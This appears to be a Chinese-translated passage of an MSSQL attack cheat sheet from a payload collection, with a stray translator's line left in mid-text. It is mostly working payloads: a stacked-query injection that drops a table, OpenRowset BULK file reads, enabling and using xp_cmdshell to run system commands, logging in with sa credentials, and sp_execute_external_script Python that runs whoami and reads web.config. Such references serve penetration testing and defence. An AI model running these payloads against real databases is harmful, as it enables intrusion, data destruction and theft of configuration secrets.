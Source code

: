 * 使用分号 ";" 添加另一个查询

  ```sql
  ProductID=1; DROP members--
  ```

## MSSQL 读取文件

**权限**：`BULK` 选项需要 `ADMINISTER BULK OPERATIONS` 或 `ADMINISTER DATABASE BULK OPERATIONS` 权限。

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```

根据您提供的文档，以下是翻译后的内容：

## MSSQL命令执行

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

如果您需要重新激活xp_cmdshell（在SQL Server 2005中默认禁用）

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

为了与MSSQL实例交互。

```powershell
sqsh -S 192.168.1.X -U sa -P superPassword
python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
```

执行Python脚本

> 由与使用xp_cmdshell执行命令的用户不同的用户执行

```powershell
#打印正在使用的用户（并执行命令）
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#打开并读取文件
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#多行
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
